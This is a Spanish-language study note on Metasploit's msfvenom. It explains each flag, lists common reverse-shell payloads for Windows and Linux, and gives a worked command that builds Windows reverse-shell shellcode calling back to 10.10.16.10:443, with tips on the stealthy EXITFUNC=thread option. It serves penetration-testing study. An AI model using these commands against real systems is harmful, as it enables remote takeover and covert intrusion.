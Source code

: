 Es una herramienta del framework Metasploit que se usa para generar **payloads personalizados**, como **reverse shells** y **bind shells**. Permite crear **shellcode** en distintos formatos (Python, C, exe, etc.) para inyectarlo en exploits o archivos ejecutables. Es muy útil en pruebas de penetración para simular ataques reales.


```
msfvenom -p Payload LHOST=IpDeNuestraMaquina LPORT=PuertoQueEstaEnEscucha EXITFUNC=thread -b BadCharts -v shellcode -f FormatoDeSalida -a Arquitectura --platform SistemaOperativo
Ejemplo: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -v shellcode -f py -a x86 --platform windows
```

*Parametros:*
`-p` Ingresamos el payload que queremos inyectar | Ejemplo 
	Los payload mas comunes que vamos a usar son: 
		*Windows:* 
			`32Bits:`windows/shell_reverse_tcp 
			`64Bits:`windows/x64/shell_reverse_tcp
		*Linux:*
			`32Bits:`linux/x86/shell_reverse_tcp
			`64Bits:`linux/x64/shell_reverse_tcp
`LHOST=` Nuestra ip
`LPORT=` Puerto que esta en escucha para recibir la [[Reverse shell]]
`EXITFUNC=` Define como termina el proceso al ejecutar el payload, la forma mas segura y sigilosa es usar *thread*
	Ejemplo de por que usar thread: Si yo inyecto el shellcode desde el proceso de la calculadora, usando EXITFUNC=thread el proceso de la calculadora sigue activo cuando yo cierro mi revershell, pero si no tuvierea el EXITFUNC=thread, cuando cierro mi revershell tambien se cierra la calculadora y esto seria poco sigiloso
`-b` Son los badcharts que tenemos que evitar para que se rompa el shellcode
`-v` Es para darle un nombre a la variable que tiene el shell code
	Ejemplos:
		Si ponemos de nombre buf, el shellcode se va a expotar asi: *buf += b"\xfc\xe8\x89..."*
		Pero si colocamos legacy va a exportarse de la siguiente manera: *legacy += b"\xfc\xe8\x89..."*
`-f` Formato de salida. Por ejemplo puede ser py, exe, bin, etc
`-a`Especificamos si la maquina victima es de *x86*(32bits) o *x64*(64bits)
`--platform` Sistema operativo de la maquina victima. Puede ser *windows* o *linux*